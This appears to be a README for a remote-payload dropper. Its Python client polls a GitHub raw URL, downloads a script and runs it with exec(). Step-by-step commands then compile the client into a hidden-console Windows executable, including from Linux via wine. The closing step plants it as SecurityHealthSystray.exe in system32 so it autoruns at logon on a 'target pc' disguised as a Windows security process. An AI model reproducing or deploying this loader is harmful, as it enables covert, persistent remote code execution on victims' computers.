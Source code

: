 # Client example
```python
import time
import requests

def has_internet():
    global a
    try:
        a = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py").text
        if "#don't delete" in str(a):
            return True
        else:
            return False
    except:
        return False

while True:
    if has_internet() == True:
        exec(a)
        break
    else:
        time.sleep(5)
        pass
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole
```
## Finally :
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)